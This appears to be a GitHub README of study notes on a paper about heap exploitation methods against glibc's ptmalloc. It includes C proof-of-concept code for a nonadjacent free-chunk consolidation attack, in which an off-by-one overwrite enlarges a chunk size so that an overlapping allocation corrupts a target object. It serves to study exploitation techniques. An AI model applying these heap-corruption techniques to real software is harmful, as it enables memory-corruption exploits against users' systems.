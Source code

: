 # New Exploit Methods against Ptmalloc of GLIBC

The code and content is obtained from [New Exploit Methods against Ptmalloc of GLIBC](http://ieeexplore.ieee.org/document/7847004/)

This repo is the note I made while read through the paper and run the examples with GDB.

To compile as the example on the paper, we can

```C++
gcc *.c -fpie -pie
```

From the paper: 

The object V represents the vulnerable object and
the object T represents the hypothesized target object. We
prove the success of attack by corrupting the contents of T.

# Code 4: Nonadjacent Free Chunk Consolidation Attack

use [consol_poc1.c](consol_poc1.c)


```C++
void *V = malloc(0x18); // vulnerable object
void *A = malloc(0xf0); // chunk size 0x100, not fastbin
char *T = (char*)malloc(0x10); // target
void *B = malloc(0xf0); // chunk size 0x100, not fastbin
```
![alt text](image/04_01.png)

```C++
free(B);
```
![alt text](image/04_02.png)

```C++
memcpy(V, "AAAAAAAAAAAAAAAAAAAAAAAA\x21",0x19); // off-by-one, enlarge sizeof A to 0x120
```
![alt text](image/04_03.png)
```C++
free(A); // force nonadjacent consolidation with B
char *C = (char*)malloc(0x110); // malloc C, overlapping T
```
![alt text](image/04_04.png)
```C++
strcpy(C+0x100, "Corrupted!");
```
![alt text](image/04_05.png)
